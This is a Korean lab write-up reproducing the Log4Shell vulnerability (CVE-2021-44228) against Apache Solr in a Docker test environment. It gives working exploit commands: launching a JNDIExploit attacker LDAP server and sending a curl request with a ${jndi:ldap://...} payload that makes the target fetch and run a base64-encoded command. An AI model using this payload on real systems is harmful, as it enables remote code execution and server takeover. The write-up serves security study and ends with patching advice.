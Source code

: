 # CVE-2021-44228

**Contributors**

-   [강성원(@rivercastleone)](https://github.com/rivercastleone)

<br/>

### 요약

-   Log4j는 다양한 pattern을 지원, 그 중 JNDI Lookup pattern을 공격자가 삽입하게 되면 Log4j가 JNDI를 통해 LDAP 서버에 접속하여 객체를 참조하게 됨
  ![](exploit.png)
-  공격자는 이 기능을 이용해서 공격자의 서버로 악성 자바 객체를 다운받게 하여 이 코드를 이용해서 서버를 탈취
-  서버에서 다음과 같이 사용자의 User-Agent 정보를 남긴다고 하면 공격자는 User-Agent 정보에 JNDI를 사용하여 LDAP 과 같은 디렉터리 서비스로부터 악성 JAVA 클래스를 가리키는 URI를 반환

<br/>

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
![](server.png)
-   서버가 시작 된 후 `http://your-ip:8983/` Apache의 관리 포털을 찾아봄
![](web.png)
-   로그에서 params 필드가 있음을 확인
![](log.png) 
-   `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-ip -p 8888`를 호출하여 공격자 LDAP 서버 및 HTTP 서버 구축
-   `echo -n 'base_encoding_command' | base64` 를 호출하여 실행 시킬 명령어를 인코딩한다 ex) ` echo -n 'touch /tmp/success' | base64`
-  `curl 'http://your-ip:8983/solr/admin/cores?asdf=$\{jndi:ldap://your-ip:1389/Basic/Command/Base64/'base_encoding_command'}'`  를 호출하여 공격자는 JNDI 조회를 통해 악성 서버에 연결하게 됨
![](attack.png)

<br/>

### 결과

![](result.png)

<br/>

### 정리

-   이 취약점은 로그 이벤트 데이터를 삽입하거나 악의적인 코드를 실행할 수 있는 취약점으로, 악용될 경우 시스템의 안정성과 보안에 심각한 위협을 초래할 수 있음. 안전한 운영을 위해 주기적으로 Log4j 라이브러리를 최신 버전으로 업데이트를 하여 취약점을 보완하는 것이 중요함
